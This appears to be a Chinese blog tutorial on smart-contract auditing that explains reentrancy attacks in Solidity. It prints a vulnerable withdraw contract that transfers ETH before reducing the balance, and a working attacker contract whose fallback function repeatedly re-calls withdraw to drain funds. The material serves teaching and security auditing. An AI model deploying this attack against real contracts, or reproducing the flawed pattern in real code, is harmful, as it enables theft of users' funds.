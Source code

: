 ```yaml
---
layout: post_layout
title: 智能合约审计-重入攻击漏洞
time: 2019年12月19日 星期四
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描述：漏洞合约中某个函数中，使用call()方法发送eth,若eth的接收者为一个合约地址，则会触发该合约的fallback()函数。若该合约是攻击者的恶意合约，攻击者可以在fallback()函数中重新调用漏洞合约的上述函数，导致重入攻击

核心问题：重要的合约变量在“重入”的过程中没有被修改，从而绕过了限制

# Fallback函数

概念:
    回退函数，是合约里的特殊无名函数，有且仅有一个。它在合约调用没有匹配到函数签名，或者调用没有带任何数据时被自动调用。

触发场景：

- address.send(ether_to_send)
   
- address.call().value(ether_to_send)
    
# 漏洞流程
![重入漏洞](/assets/demo/chongru.png)
# 漏洞合约分析
```java
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit; //credit表示存储用户的余额

  event Deposit(address _who, uint value);  //Deposit表示充值
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value; //credit调用deposit()函数进行充值使用msg.value进行ETH发送
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) { //withdraw提币函数
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
}
```
漏洞点：从提币开始，首先校验credit是否大于amount(本次提现的ETH),然后使用call.value进行转账，然后再扣除余额。这里漏洞点就出在我们先使用call.value对用户进行转账，然后再减少余额。就是因为这种情况，攻击者可以反复进行withdraw(),在进入withdraw()之前，第一步的校验仍然有效，在进入withdraw()之后，credit(余额)并没有减少，第一步的校验仍然有效，攻击者才能源源不断的从合约中提取ETH
----------
# 攻击者合约
```java
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit;

  event Deposit(address _who, uint value);
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value;
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
  
  function checkBalance() public constant returns (uint){
      return this.balance;
  }
}

contract ReentrancyAttack {   //调用attack()函数对漏洞合约进行远远不断的偷取ETH
  ReentrancyGame public regame;
  address owner;

  function ReentrancyAttack (ReentrancyGame addr) payable { 
    owner = msg.sender;
    regame = addr;
  }

  function attack() public returns (bool){
    regame.deposit.value(1)();
    regame.withdraw(1);
    return true;
  }
  
  function geteth() public returns (bool){ 
    owner.transfer(this.balance); 
    return true;
  }

  function checkBalance() public constant returns (uint){
      return this.balance;
  }

  function() public payable { 
    regame.withdraw(1); 
  }
}
```
# 使用Remix进行调试
